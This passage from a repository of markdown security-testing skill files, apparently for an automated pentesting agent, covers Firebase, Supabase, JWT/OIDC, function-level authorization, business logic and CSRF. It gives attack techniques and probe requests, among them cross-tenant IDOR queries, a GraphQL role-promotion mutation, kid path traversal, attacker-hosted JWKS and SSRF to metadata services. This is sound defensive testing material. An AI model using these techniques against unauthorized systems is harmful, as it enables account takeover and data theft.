- Replay tokens across environments/projects; expect strict `aud`/`iss` rejection
- Call Functions with and without Authorization; verify identical checks

### App Check

App Check is not a substitute for authorization.

**Bypasses**
- REST calls directly to googleapis endpoints with ID token succeed regardless of App Check
- Mobile reverse engineering: hook client and reuse ID token flows without attestation

**Tests**
- Compare SDK vs REST behavior with/without App Check headers
- Confirm no elevated authorization via App Check alone

### Tenant Isolation

Apps often implement multi-tenant data models (`orgs/<orgId>/...`). Bind tenant from server context (membership doc or custom claim), not client payload.

**Tests**
- Vary org header/subdomain/query while keeping token fixed; verify server denies cross-tenant access
- Export/report Functions: ensure queries execute under caller scope

## Bypass Techniques

- Content-type switching: JSON vs form vs multipart to hit alternate code paths in onRequest
- Parameter/field pollution: duplicate JSON keys (last-one-wins in many parsers); sneak privilege fields
- Caching/CDN: Hosting rewrites keying responses without Authorization or tenant headers
- Race windows: write then read before background enforcements complete

## Blind Enumeration

- Firestore: use error shape, document count, ETag/length to infer existence
- Storage: length/timing differences on signed URL attempts leak validity
- Functions: constant-time comparisons vs variable messages reveal authorization branches

## Testing Methodology

1. **Extract config** - Get project config from client bundle
2. **Obtain principals** - Collect tokens for unauth, anonymous, user A/B, admin
3. **Build matrix** - Resource × Action × Principal across Firestore/Realtime/Storage/Functions
4. **SDK vs REST** - Exercise every action via both to detect parity gaps
5. **Seed IDs** - Start from list/query paths to gather document IDs
6. **Cross-principal** - Swap document paths, tenants, and user IDs across principals

## Tooling

- SDK + REST: httpie/curl + jq for REST; Firebase emulator and Rules Playground for rapid iteration
- Rules analysis: script probes for common patterns (`auth != null`, missing field validation)
- Functions: fuzz onRequest with varied content-types and missing/forged Authorization
- Storage: enumerate prefixes; test signed URL generation and reuse patterns

## Validation Requirements

- Owner vs non-owner Firestore queries showing unauthorized access or metadata leak
- Cloud Storage read/write beyond intended scope (public object, signed URL reuse, list exposure)
- Function accepting forged/foreign identity (wrong `aud`/`iss`) or trusting client `uid`/`orgId`
- Minimal reproducible requests with roles/tokens used and observed deltas
```

## File: `strix/skills/technologies/supabase.md`
```markdown
---
name: supabase
description: Supabase security testing covering Row Level Security, PostgREST, Edge Functions, and service key exposure
---

# Supabase

Security testing for Supabase applications. Focus on mis-scoped Row Level Security (RLS), unsafe RPCs, leaked `service_role` keys, lax Storage policies, and Edge Functions trusting headers without binding to issuer/audience/tenant.

## Attack Surface

**Data Access**
- PostgREST: table CRUD, filters, embeddings, RPC (remote functions)
- GraphQL: pg_graphql over Postgres schema with RLS interaction
- Realtime: replication subscriptions, broadcast/presence channels

**Storage**
- Buckets, objects, signed URLs, public/private policies

**Authentication**
- Auth (GoTrue): JWTs, cookie/session, magic links, OAuth flows

**Server-Side**
- Edge Functions (Deno): server-side code calling Supabase with secrets

## Architecture

**Endpoints**
- REST: `https://<ref>.supabase.co/rest/v1/<table>`
- RPC: `https://<ref>.supabase.co/rest/v1/rpc/<fn>`
- Storage: `https://<ref>.supabase.co/storage/v1`
- GraphQL: `https://<ref>.supabase.co/graphql/v1`
- Realtime: `wss://<ref>.supabase.co/realtime/v1`
- Auth: `https://<ref>.supabase.co/auth/v1`
- Functions: `https://<ref>.functions.supabase.co/`

**Headers**
- `apikey: <anon-or-service>` — identifies project
- `Authorization: Bearer <JWT>` — binds user context

**Roles**
- `anon`, `authenticated` — standard roles
- `service_role` — bypasses RLS, must never be client-exposed

**Key Principle**
`auth.uid()` returns current user UUID from JWT. Policies must never trust client-supplied IDs over server context.

## High-Value Targets

- Tables with sensitive data (users, orders, payments, PII)
- RPC functions (especially `SECURITY DEFINER`)
- Storage buckets with private files
- Edge Functions with `service_role` access
- Export/report endpoints generating signed outputs
- Admin/staff routes and privilege-granting endpoints

## Reconnaissance

**Enumerate Surfaces**
```
/rest/v1/<table>
/rest/v1/rpc/<fn>
/storage/v1/object/public/<bucket>/
/storage/v1/object/list/<bucket>?prefix=
/graphql/v1
/auth/v1
```

**Obtain Principals**
- Unauthenticated (anon key only)
- Basic user A, user B
- Admin/staff (if available)
- Check if `service_role` key leaked in client bundle or Edge Function responses

## Key Vulnerabilities

### Row Level Security (RLS)

Enable RLS on every non-public table; absence or "permit-all" policies → bulk exposure.

**Common Gaps**
- Policies check `auth.uid()` for SELECT but forget UPDATE/DELETE/INSERT
- Missing tenant constraints (`org_id`/`tenant_id`) allow cross-tenant access
- Policies rely on client-provided columns (`user_id` in payload) instead of JWT
- Complex joins where policy is applied after filters, enabling inference via counts

**Tests**
```bash
# Compare row counts for two users
GET /rest/v1/<table>?select=*&Prefer=count=exact

# Cross-tenant probe
GET /rest/v1/<table>?org_id=eq.<other_org>
GET /rest/v1/<table>?or=(org_id.eq.other,org_id.is.null)

# Write-path
PATCH /rest/v1/<table>?id=eq.<foreign_id>
DELETE /rest/v1/<table>?id=eq.<foreign_id>
POST /rest/v1/<table> with foreign owner_id
```

### PostgREST & REST

**Filters**
- `eq`, `neq`, `lt`, `gt`, `ilike`, `or`, `is`, `in`
- Embed relations: `select=*,profile(*)`—exploits overfetch if resolvers skip per-row checks
- Search leaks: generous `LIKE`/`ILIKE` filters combined with missing RLS → mass disclosure via wildcard queries

**Headers**
- `Prefer: return=representation` — echo writes
- `Prefer: count=exact` — exposure via counts
- `Accept-Profile`/`Content-Profile` — select schema

**IDOR Patterns**
```
/rest/v1/<table>?select=*&id=eq.<other_id>
/rest/v1/<table>?select=*&slug=eq.<other_slug>
/rest/v1/<table>?select=*&email=eq.<other_email>
```

**Mass Assignment**
- If RPC not used, PATCH can update unintended columns
- Verify restricted columns via database permissions/policies

### RPC Functions

RPC endpoints map to SQL functions. `SECURITY DEFINER` bypasses RLS unless carefully coded; `SECURITY INVOKER` respects caller.

**Anti-Patterns**
- `SECURITY DEFINER` + missing owner checks → vertical/horizontal bypass
- `set search_path` left to public; function resolves unsafe objects
- Trusting client-supplied `user_id`/`tenant_id` rather than `auth.uid()`

**Tests**
```bash
# Call as different users with foreign IDs
POST /rest/v1/rpc/<fn> {"user_id": "<foreign_id>"}

# Remove JWT entirely
Authorization: Bearer <anon_token>
```
Verify functions perform explicit ownership/tenant checks inside SQL.

### Storage

**Buckets**
- Public vs private; objects in `storage.objects` with RLS-like policies

**Misconfigurations**
```bash
# Public bucket with sensitive data
GET /storage/v1/object/public/<bucket>/<path>

# List prefixes without auth
GET /storage/v1/object/list/<bucket>?prefix=

# Signed URL reuse across tenants/paths
```

**Content-Type Abuse**
- Upload HTML/SVG served as `text/html` or `image/svg+xml`
- Verify `X-Content-Type-Options: nosniff` and `Content-Disposition: attachment`

**Path Confusion**
- Mixed case, URL-encoding, `..` segments may be rejected at UI but accepted by API
- Test path normalization differences between client validation and server handling

### Realtime

**Endpoint**: `wss://<ref>.supabase.co/realtime/v1`

**Risks**
- Channel names derived from table/schema/filters leaking other users' updates when RLS or channel guards are weak
- Broadcast/presence channels allowing cross-room join/publish without auth

**Tests**
- Subscribe to `public:realtime` changes on protected tables; confirm visibility aligns with RLS
- Attempt joining other users' channels: `room:<user_id>`, `org:<org_id>`

### GraphQL

**Endpoint**: `/graphql/v1` using pg_graphql with RLS

**Risks**
- Introspection reveals schema relations
- Overfetch via nested relations where resolvers skip per-row ownership checks
- Global node IDs leaked and reusable via different viewers

**Tests**
- Compare REST vs GraphQL responses for same principal and query shape
- Query deep nested fields; verify RLS holds at each edge

### Auth & Tokens

GoTrue issues JWTs with claims (`sub=uid`, `role`, `aud=authenticated`).

**Verification Requirements**
- Issuer, audience, expiration, signature, tenant context

**Pitfalls**
- Storing tokens in localStorage → XSS exfiltration
- Treating `apikey` as identity (it's project-scoped, not user identity)
- Exposing `service_role` key in client bundle or Edge Function responses
- Refresh token mismanagement leading to long-lived sessions beyond intended TTL

**Tests**
- Replay tokens across services; check audience/issuer pinning
- Try downgraded tokens (expired/other audience) against custom endpoints

### Edge Functions

Deno-based functions often initialize Supabase client with `service_role`.

**Risks**
- Trusting Authorization/apikey headers without verifying JWT against issuer/audience
- CORS: wildcard origins with credentials; reflected Authorization in responses
- SSRF via fetch; secrets exposed via error traces or logs

**Tests**
- Call functions with and without Authorization; compare behavior
- Try foreign resource IDs in payloads; verify server re-derives user/tenant from JWT
- Attempt to reach internal endpoints (metadata services) via function fetch

### Tenant Isolation

Ensure every query joins or filters by `tenant_id`/`org_id` derived from JWT context, not client input.

**Tests**
- Change subdomain/header/path tenant selectors while keeping JWT tenant constant
- Export/report endpoints: confirm queries execute under caller scope

## Bypass Techniques

- Content-type switching: `application/json` ↔ `application/x-www-form-urlencoded` ↔ `multipart/form-data`
- Parameter pollution: duplicate keys in JSON/query (PostgREST chooses last/first depending on parser)
- GraphQL+REST parity probing: protections often drift; fetch via the weaker path
- Race windows: parallel writes to bypass post-insert ownership updates

## Blind Enumeration

- Use `Prefer: count=exact` and ETag/length diffs to infer unauthorized rows
- Conditional requests (`If-None-Match`) to detect object existence
- Storage signed URLs: timing/length deltas to map valid vs invalid tokens

## Testing Methodology

1. **Inventory surfaces** - Map REST, Storage, GraphQL, Realtime, Auth, Functions endpoints
2. **Obtain principals** - Collect tokens for anon, user A/B, admin; check for `service_role` leaks
3. **Build matrix** - Resource × Action × Principal
4. **REST vs GraphQL** - Test both to find parity gaps
5. **Seed IDs** - Start with list/search endpoints to gather IDs
6. **Cross-principal** - Swap IDs, tenants, and transports across principals

## Tooling

- PostgREST: httpie/curl + jq; enumerate tables; fuzz filters (`or=`, `ilike`, `neq`, `is.null`)
- GraphQL: graphql-inspector, voyager; deep queries for field-level enforcement
- Realtime: custom ws client; subscribe to suspicious channels; diff payloads per principal
- Storage: enumerate bucket listing APIs; script signed URL patterns
- Auth/JWT: jwt-cli/jose to validate audience/issuer; replay against Edge Functions
- Policy diffing: maintain request sets per role; compare results across releases

## Validation Requirements

- Owner vs non-owner requests for REST/GraphQL showing unauthorized access (content or metadata)
- Mis-scoped RPC or Storage signed URL usable by another user/tenant
- Realtime or GraphQL exposure matching missing policy checks
- Minimal reproducible requests with role contexts documented
```

## File: `strix/skills/vulnerabilities/authentication_jwt.md`
```markdown
---
name: authentication-jwt
description: JWT and OIDC security testing covering token forgery, algorithm confusion, and claim manipulation
---

# Authentication / JWT / OIDC

JWT/OIDC failures often enable token forgery, token confusion, cross-service acceptance, and durable account takeover. Do not trust headers, claims, or token opacity without strict validation bound to issuer, audience, key, and context.

## Attack Surface

- Web/mobile/API authentication using JWT (JWS/JWE) and OIDC/OAuth2
- Access vs ID tokens, refresh tokens, device/PKCE/Backchannel flows
- First-party and microservices verification, gateways, and JWKS distribution

## Reconnaissance

### Endpoints

- Well-known: `/.well-known/openid-configuration`, `/oauth2/.well-known/openid-configuration`
- Keys: `/jwks.json`, rotating key endpoints, tenant-specific JWKS
- Auth: `/authorize`, `/token`, `/introspect`, `/revoke`, `/logout`, device code endpoints
- App: `/login`, `/callback`, `/refresh`, `/me`, `/session`, `/impersonate`

### Token Features

- Headers: `{"alg":"RS256","kid":"...","typ":"JWT","jku":"...","x5u":"...","jwk":{...}}`
- Claims: `{"iss":"...","aud":"...","azp":"...","sub":"user","scope":"...","exp":...,"nbf":...,"iat":...}`
- Formats: JWS (signed), JWE (encrypted). Note unencoded payload option (`"b64":false`) and critical headers (`"crit"`)

## Key Vulnerabilities

### Signature Verification

- RS256→HS256 confusion: change alg to HS256 and use the RSA public key as HMAC secret if algorithm is not pinned
- "none" algorithm acceptance: set `"alg":"none"` and drop the signature if libraries accept it
- ECDSA malleability/misuse: weak verification settings accepting non-canonical signatures

### Header Manipulation

- **kid injection**: path traversal `../../../../keys/prod.key`, SQL/command/template injection in key lookup, or pointing to world-readable files
- **jku/x5u abuse**: host attacker-controlled JWKS/X509 chain; if not pinned/whitelisted, server fetches and trusts attacker keys
- **jwk header injection**: embed attacker JWK in header; some libraries prefer inline JWK over server-configured keys
- **SSRF via remote key fetch**: exploit JWKS URL fetching to reach internal hosts

### Key and Cache Issues

- JWKS caching TTL and key rollover: accept obsolete keys; race rotation windows; missing kid pinning → accept any matching kty/alg
- Mixed environments: same secrets across dev/stage/prod; key reuse across tenants or services
- Fallbacks: verification succeeds when kid not found by trying all keys or no keys (implementation bugs)

### Claims Validation Gaps

- iss/aud/azp not enforced: cross-service token reuse; accept tokens from any issuer or wrong audience
- scope/roles fully trusted from token: server does not re-derive authorization; privilege inflation via claim edits when signature checks are weak
- exp/nbf/iat not enforced or large clock skew tolerance; accept long-expired or not-yet-valid tokens
- typ/cty not enforced: accept ID token where access token required (token confusion)

### Token Confusion and OIDC

- Access vs ID token swap: use ID token against APIs when they only verify signature but not audience/typ
- OIDC mix-up: redirect_uri and client mix-ups causing tokens for Client A to be redeemed at Client B
- PKCE downgrades: missing S256 requirement; accept plain or absent code_verifier
- State/nonce weaknesses: predictable or missing → CSRF/logical interception of login
- Device/Backchannel flows: codes and tokens accepted by unintended clients or services

### Refresh and Session

- Refresh token rotation not enforced: reuse old refresh token indefinitely; no reuse detection
- Long-lived JWTs with no revocation: persistent access post-logout
- Session fixation: bind new tokens to attacker-controlled session identifiers or cookies

### Transport and Storage

- Token in localStorage/sessionStorage: susceptible to XSS exfiltration; cookie vs header trade-offs with SameSite/CSRF
- Insecure CORS: wildcard origins with credentialed requests expose tokens and protected responses
- TLS and cookie flags: missing Secure/HttpOnly; lack of mTLS or DPoP/"cnf" binding permits replay from another device

## Advanced Techniques

### Microservices and Gateways

- Audience mismatch: internal services verify signature but ignore aud → accept tokens for other services
- Header trust: edge or gateway injects X-User-Id; backend trusts it over token claims
- Asynchronous consumers: workers process messages with bearer tokens but skip verification on replay

### JWS Edge Cases

- Unencoded payload (b64=false) with crit header: libraries mishandle verification paths
- Nested JWT (JWT-in-JWT) verification order errors; outer token accepted while inner claims ignored

## Special Contexts

### Mobile

- Deep-link/redirect handling bugs leak codes/tokens; insecure WebView bridges exposing tokens
- Token storage in plaintext files/SQLite/Keychain/SharedPrefs; backup/adb accessible

### SSO Federation

- Misconfigured trust between multiple IdPs/SPs, mixed metadata, or stale keys lead to acceptance of foreign tokens

## Chaining Attacks

- XSS → token theft → replay across services with weak audience checks
- SSRF → fetch private JWKS → sign tokens accepted by internal services
- Host header poisoning → OIDC redirect_uri poisoning → code capture
- IDOR in sessions/impersonation endpoints → mint tokens for other users

## Testing Methodology

1. **Inventory issuers/consumers** - Identity providers, API gateways, services, mobile/web clients
2. **Capture tokens** - Access and ID tokens for multiple roles; note header, claims, signature
3. **Map verification endpoints** - `/.well-known`, `/jwks.json`
4. **Build matrix** - Token Type × Audience × Service; attempt cross-use
5. **Mutate components** - Headers (alg, kid, jku/x5u/jwk), claims (iss/aud/azp/sub/exp), signatures
6. **Verify enforcement** - What is actually checked vs assumed

## Validation

1. Show forged or cross-context token acceptance (wrong alg, wrong audience/issuer, or attacker-signed JWKS)
2. Demonstrate access token vs ID token confusion at an API
3. Prove refresh token reuse without rotation detection or revocation
4. Confirm header abuse (kid/jku/x5u/jwk) leading to key selection under attacker control
5. Provide owner vs non-owner evidence with identical requests differing only in token context

## False Positives

- Token rejected due to strict audience/issuer enforcement
- Key pinning with JWKS whitelist and TLS validation
- Short-lived tokens with rotation and revocation on logout
- ID token not accepted by APIs that require access tokens

## Impact

- Account takeover and durable session persistence
- Privilege escalation via claim manipulation or cross-service acceptance
- Cross-tenant or cross-application data access
- Token minting by attacker-controlled keys or endpoints

## Pro Tips

1. Pin verification to issuer and audience; log and diff claim sets across services
2. Attempt RS256→HS256 and "none" first only if algorithm pinning is unclear; otherwise focus on header key control (kid/jku/x5u/jwk)
3. Test token reuse across all services; many backends only check signature, not audience/typ
4. Exploit JWKS caching and rotation races; try retired keys and missing kid fallbacks
5. Exercise OIDC flows with PKCE/state/nonce variants and mixed clients; look for mix-up
6. Try DPoP/mTLS absence to replay tokens from different devices
7. Treat refresh as its own surface: rotation, reuse detection, and audience scoping
8. Validate every acceptance path: gateway, service, worker, WebSocket, and gRPC
9. Favor minimal PoCs that clearly show cross-context acceptance and durable access
10. When in doubt, assume verification differs per stack (mobile vs web vs gateway) and test each

## Summary

Verification must bind the token to the correct issuer, audience, key, and client context on every acceptance path. Any missing binding enables forgery or confusion.
```

## File: `strix/skills/vulnerabilities/broken_function_level_authorization.md`
```markdown
---
name: broken-function-level-authorization
description: BFLA testing for action-level authorization failures across endpoints, admin functions, and API operations
---

# Broken Function Level Authorization (BFLA)

BFLA is action-level authorization failure: callers invoke functions (endpoints, mutations, admin tools) they are not entitled to. It appears when enforcement differs across transports, gateways, roles, or when services trust client hints. Bind subject × action at the service that performs the action.

## Attack Surface

- Vertical authz: privileged/admin/staff-only actions reachable by basic users
- Feature gates: toggles enforced at edge/UI, not at core services
- Transport drift: REST vs GraphQL vs gRPC vs WebSocket with inconsistent checks
- Gateway trust: backends trust X-User-Id/X-Role injected by proxies/edges
- Background workers/jobs performing actions without re-checking authz

## High-Value Actions

- Role/permission changes, impersonation/sudo, invite/accept into orgs
- Approve/void/refund/credit issuance, price/plan overrides
- Export/report generation, data deletion, account suspension/reactivation
- Feature flag toggles, quota/grant adjustments, license/seat changes
- Security settings: 2FA reset, email/phone verification overrides

## Reconnaissance

### Surface Enumeration

- Admin/staff consoles and APIs, support tools, internal-only endpoints exposed via gateway
- Hidden buttons and disabled UI paths (feature-flagged) mapped to still-live endpoints
- GraphQL schemas: mutations and admin-only fields/types; gRPC service descriptors (reflection)
- Mobile clients often reveal extra endpoints/roles in app bundles or network logs

### Signals

- 401/403 on UI but 200 via direct API call; differing status codes across transports
- Actions succeed via background jobs when direct call is denied
- Changing only headers (role/org) alters access without token change

## Key Vulnerabilities

### Verb Drift and Aliases

- Alternate methods: GET performing state change; POST vs PUT vs PATCH differences; X-HTTP-Method-Override/_method
- Alternate endpoints performing the same action with weaker checks (legacy vs v2, mobile vs web)

### Edge vs Core Mismatch

- Edge blocks an action but core service RPC accepts it directly; call internal service via exposed API route or SSRF
- Gateway-injected identity headers override token claims; supply conflicting headers to test precedence

### Feature Flag Bypass

- Client-checked feature gates; call backend endpoints directly
- Admin-only mutations exposed but hidden in UI; invoke via GraphQL or gRPC tools

### Batch Job Paths

- Create export/import jobs where creation is allowed but finalize/approve lacks authz; finalize others' jobs
- Replay webhooks/background tasks endpoints that perform privileged actions without verifying caller

### Content-Type Paths

- JSON vs form vs multipart handlers using different middleware: send the action via the most permissive parser

## Advanced Techniques

### GraphQL

- Resolver-level checks per mutation/field; do not assume top-level auth covers nested mutations or admin fields
- Abuse aliases/batching to sneak privileged fields; persisted queries sometimes bypass auth transforms

```graphql
mutation Promote($id:ID!){
  a: updateUser(id:$id, role: ADMIN){ id role }
}
```

### gRPC

- Method-level auth via interceptors must enforce audience/roles; probe direct gRPC with tokens of lower role
- Reflection lists services/methods; call admin methods that the gateway hid

### WebSocket

- Handshake-only auth: ensure per-message authorization on privileged events (e.g., admin:impersonate)
- Try emitting privileged actions after joining standard channels

### Multi-Tenant

- Actions requiring tenant admin enforced only by header/subdomain; attempt cross-tenant admin actions by switching selectors with same token

### Microservices

- Internal RPCs trust upstream checks; reach them through exposed endpoints or SSRF; verify each service re-enforces authz

## Bypass Techniques

### Header Trust

- Supply X-User-Id/X-Role/X-Organization headers; remove or contradict token claims; observe which source wins

### Route Shadowing

- Legacy/alternate routes (e.g., /admin/v1 vs /v2/admin) that skip new middleware chains

### Idempotency and Retries

- Retry or replay finalize/approve endpoints that apply state without checking actor on each call

### Cache Key Confusion

- Cached authorization decisions at edge leading to cross-user reuse; test with Vary and session swaps

## Testing Methodology

1. **Build Actor × Action matrix** - Unauth, basic, premium, staff/admin; enumerate actions per role
2. **Obtain tokens/sessions** - For each role
3. **Exercise every action** - Across all transports and encodings (JSON, form, multipart), including method overrides
4. **Vary headers and selectors** - Org/tenant/project; test behind gateway vs direct-to-service
5. **Include background flows** - Job creation/finalization, webhooks, queues; confirm re-validation

## Validation

1. Show a lower-privileged principal successfully invokes a restricted action (same inputs) while the proper role succeeds and another lower role fails
2. Provide evidence across at least two transports or encodings demonstrating inconsistent enforcement
3. Demonstrate that removing/altering client-side gates (buttons/flags) does not affect backend success
4. Include durable state change proof: before/after snapshots, audit logs, and authoritative sources

## False Positives

- Read-only endpoints mislabeled as admin but publicly documented
- Feature toggles intentionally open to all roles for preview/beta with clear policy
- Simulated environments where admin endpoints are stubbed with no side effects

## Impact

- Privilege escalation to admin/staff actions
- Monetary/state impact: refunds/credits/approvals without authorization
- Tenant-wide configuration changes, impersonation, or data deletion
- Compliance and audit violations due to bypassed approval workflows

## Pro Tips

1. Start from the role matrix; test every action with basic vs admin tokens across REST/GraphQL/gRPC
2. Diff middleware stacks between routes; weak chains often exist on legacy or alternate encodings
3. Inspect gateways for identity header injection; never trust client-provided identity
4. Treat jobs/webhooks as first-class: finalize/approve must re-check the actor
5. Prefer minimal PoCs: one request that flips a privileged field or invokes an admin method with a basic token

## Summary

Authorization must bind the actor to the specific action at the service boundary on every request and message. UI gates, gateways, or prior steps do not substitute for function-level checks.
```

## File: `strix/skills/vulnerabilities/business_logic.md`
```markdown
---
name: business-logic
description: Business logic testing for workflow bypass, state manipulation, and domain invariant violations
---

# Business Logic Flaws

Business logic flaws exploit intended functionality to violate domain invariants: move money without paying, exceed limits, retain privileges, or bypass reviews. They require a model of the business, not just payloads.

## Attack Surface

- Financial logic: pricing, discounts, payments, refunds, credits, chargebacks
- Account lifecycle: signup, upgrade/downgrade, trial, suspension, deletion
- Authorization-by-logic: feature gates, role transitions, approval workflows
- Quotas/limits: rate/usage limits, inventory, entitlements, seat licensing
- Multi-tenant isolation: cross-organization data or action bleed
- Event-driven flows: jobs, webhooks, sagas, compensations, idempotency

## High-Value Targets

- Pricing/cart: price locks, quote to order, tax/shipping computation
- Discount engines: stacking, mutual exclusivity, scope (cart vs item), once-per-user enforcement
- Payments: auth/capture/void/refund sequences, partials, split tenders, chargebacks, idempotency keys
- Credits/gift cards/vouchers: issuance, redemption, reversal, expiry, transferability
- Subscriptions: proration, upgrade/downgrade, trial extension, seat counts, meter reporting
- Refunds/returns/RMAs: multi-item partials, restocking fees, return window edges
- Admin/staff operations: impersonation, manual adjustments, credit/refund issuance, account flags
- Quotas/limits: daily/monthly usage, inventory reservations, feature usage counters

## Reconnaissance

### Workflow Mapping

- Derive endpoints from the UI and proxy/network logs; map hidden/undocumented API calls, especially finalize/confirm endpoints
- Identify tokens/flags: stepToken, paymentIntentId, orderStatus, reviewState, approvalId; test reuse across users/sessions
- Document invariants: conservation of value (ledger balance), uniqueness (idempotency), monotonicity (non-decreasing counters), exclusivity (one active subscription)

### Input Surface

- Hidden fields and client-computed totals; server must recompute on trusted sources
- Alternate encodings and shapes: arrays instead of scalars, objects with unexpected keys, null/empty/0/negative, scientific notation
- Business selectors: currency, locale, timezone, tax region; vary to trigger rounding and ruleset changes

### State and Time Axes

- Replays: resubmit stale finalize/confirm requests
- Out-of-order: call finalize before verify; refund before capture; cancel after ship
- Time windows: end-of-day/month cutovers, daylight saving, grace periods, trial expiry edges

## Key Vulnerabilities

### State Machine Abuse

- Skip or reorder steps via direct API calls; verify server enforces preconditions on each transition
- Replay prior steps with altered parameters (e.g., swap price after approval but before capture)
- Split a single constrained action into many sub-actions under the threshold (limit slicing)

### Concurrency and Idempotency

- Parallelize identical operations to bypass atomic checks (create, apply, redeem, transfer)
- Abuse idempotency: key scoped to path but not principal → reuse other users' keys; or idempotency stored only in cache
- Message reprocessing: queue workers re-run tasks on retry without idempotent guards; cause duplicate fulfillment/refund

### Numeric and Currency

- Floating point vs decimal rounding; rounding/truncation favoring attacker at boundaries
- Cross-currency arbitrage: buy in currency A, refund in B at stale rates; tax rounding per-item vs per-order
- Negative amounts, zero-price, free shipping thresholds, minimum/maximum guardrails

### Quotas, Limits, and Inventory

- Off-by-one and time-bound resets (UTC vs local); pre-warm at T-1s and post-fire at T+1s
- Reservation/hold leaks: reserve multiple, complete one, release not enforced; backorder logic inconsistencies
- Distributed counters without strong consistency enabling double-consumption

### Refunds and Chargebacks

- Double-refund: refund via UI and support tool; refund partials summing above captured amount
- Refund after benefits consumed (downloaded digital goods, shipped items) due to missing post-consumption checks

### Feature Gates and Roles

- Feature flags enforced client-side or at edge but not in core services; toggle names guessed or fallback to default-enabled
- Role transitions leaving stale capabilities (retain premium after downgrade; retain admin endpoints after demotion)

## Advanced Techniques

### Event-Driven Sagas

- Saga/compensation gaps: trigger compensation without original success; or execute success twice without compensation
- Outbox/Inbox patterns missing idempotency → duplicate downstream side effects
- Cron/backfill jobs operating outside request-time authorization; mutate state broadly

### Microservices Boundaries

- Cross-service assumption mismatch: one service validates total, another trusts line items; alter between calls
- Header trust: internal services trusting X-Role or X-User-Id from untrusted edges
- Partial failure windows: two-phase actions where phase 1 commits without phase 2, leaving exploitable intermediate state

### Multi-Tenant Isolation

- Tenant-scoped counters and credits updated without tenant key in the where-clause; leak across orgs
- Admin aggregate views allowing actions that impact other tenants due to missing per-tenant enforcement

## Bypass Techniques

- Content-type switching (JSON/form/multipart) to hit different code paths
- Method alternation (GET performing state change; overrides via X-HTTP-Method-Override)
- Client recomputation: totals, taxes, discounts computed on client and accepted by server
- Cache/gateway differentials: stale decisions from CDN/APIM that are not identity-aware

## Special Contexts

### E-commerce

- Stack incompatible discounts via parallel apply; remove qualifying item after discount applied; retain free shipping after cart changes
- Modify shipping tier post-quote; abuse returns to keep product and refund

### Banking/Fintech

- Split transfers to bypass per-transaction threshold; schedule vs instant path inconsistencies
- Exploit grace periods on holds/authorizations to withdraw again before settlement

### SaaS/B2B

- Seat licensing: race seat assignment to exceed purchased seats; stale license checks in background tasks
- Usage metering: report late or duplicate usage to avoid billing or to over-consume

## Chaining Attacks

- Business logic + race: duplicate benefits before state updates
- Business logic + IDOR: operate on others' resources once a workflow leak reveals IDs
- Business logic + CSRF: force a victim to complete a sensitive step sequence

## Testing Methodology

1. **Enumerate state machine** - Per critical workflow (states, transitions, pre/post-conditions); note invariants
2. **Build Actor × Action × Resource matrix** - Unauth, basic user, premium, staff/admin; identify actions per role
3. **Test transitions** - Step skipping, repetition, reordering, late mutation
4. **Introduce variance** - Time, concurrency, channel (mobile/web/API/GraphQL), content-types
5. **Validate persistence boundaries** - All services, queues, and jobs re-enforce invariants

## Validation

1. Show an invariant violation (e.g., two refunds for one charge, negative inventory, exceeding quotas)
2. Provide side-by-side evidence for intended vs abused flows with the same principal
3. Demonstrate durability: the undesired state persists and is observable in authoritative sources (ledger, emails, admin views)
4. Quantify impact per action and at scale (unit loss × feasible repetitions)

## False Positives

- Promotional behavior explicitly allowed by policy (documented free trials, goodwill credits)
- Visual-only inconsistencies with no durable or exploitable state change
- Admin-only operations with proper audit and approvals

## Impact

- Direct financial loss (fraud, arbitrage, over-refunds, unpaid consumption)
- Regulatory/contractual violations (billing accuracy, consumer protection)
- Denial of inventory/services to legitimate users through resource exhaustion
- Privilege retention or unauthorized access to premium features

## Pro Tips

1. Start from invariants and ledgers, not UI—prove conservation of value breaks
2. Test with time and concurrency; many bugs only appear under pressure
3. Recompute totals server-side; never accept client math—flag when you observe otherwise
4. Treat idempotency and retries as first-class: verify key scope and persistence
5. Probe background workers and webhooks separately; they often skip auth and rule checks
6. Validate role/feature gates at the service that mutates state, not only at the edge
7. Explore end-of-period edges (month-end, trial end, DST) for rounding and window issues
8. Use minimal, auditable PoCs that demonstrate durable state change and exact loss
9. Chain with authorization tests (IDOR/Function-level access) to magnify impact
10. When in doubt, map the state machine; gaps appear where transitions lack server-side guards

## Summary

Business logic security is the enforcement of domain invariants under adversarial sequencing, timing, and inputs. If any step trusts the client or prior steps, expect abuse.
```

## File: `strix/skills/vulnerabilities/csrf.md`
```markdown
---
name: csrf
description: CSRF testing covering token bypass, SameSite cookies, CORS misconfigurations, and state-changing request abuse
---

# CSRF

Cross-site request forgery abuses ambient authority (cookies, HTTP auth) across origins. Do not rely on CORS alone; enforce non-replayable tokens and strict origin checks for every state change.

## Attack Surface

**Session Types**
- Web apps with cookie-based sessions and HTTP auth
- JSON/REST, GraphQL (GET/persisted queries), file upload endpoints

**Authentication Flows**
- Login/logout, password/email change, MFA toggles

**OAuth/OIDC**
- Authorize, token, logout, disconnect/connect endpoints

## High-Value Targets

- Credentials and profile changes (email/password/phone)
- Payment and money movement, subscription/plan changes
- API key/secret generation, PAT rotation, SSH keys
- 2FA/TOTP enable/disable; backup codes; device trust
- OAuth connect/disconnect; logout; account deletion
- Admin/staff actions and impersonation flows
- File uploads/deletes; access control changes

## Reconnaissance

### Session and Cookies

- Inspect cookies: HttpOnly, Secure, SameSite (Strict/Lax/None)
- Lax allows cookies on top-level cross-site GET; None requires Secure
- Determine if Authorization headers or bearer tokens are used (generally not CSRF-prone) versus cookies (CSRF-prone)

### Token and Header Checks

- Locate anti-CSRF tokens (hidden inputs, meta tags, custom headers)
- Test removal, reuse across requests, reuse across sessions, binding to method/path
- Verify server checks Origin and/or Referer on state changes
- Test null/missing and cross-origin values

### Method and Content-Types

- Confirm whether GET, HEAD, or OPTIONS perform state changes
- Try simple content-types to avoid preflight: `application/x-www-form-urlencoded`, `multipart/form-data`, `text/plain`
- Probe parsers that auto-coerce `text/plain` or form-encoded bodies into JSON

### CORS Profile

- Identify `Access-Control-Allow-Origin` and `-Credentials`
- Overly permissive CORS is not a CSRF fix and can turn CSRF into data exfiltration
- Test per-endpoint CORS differences; preflight vs simple request behavior can diverge

## Key Vulnerabilities

### Navigation CSRF

- Auto-submitting form to target origin; works when cookies are sent and no token/origin checks are enforced
- Top-level GET navigation can trigger state if server misuses GET or links actions to GET callbacks

### Simple Content-Type CSRF

- `application/x-www-form-urlencoded` and `multipart/form-data` POSTs do not require preflight
- `text/plain` form bodies can slip through validators and be parsed server-side

### JSON CSRF

- If server parses JSON from `text/plain` or form-encoded bodies, craft parameters to reconstruct JSON
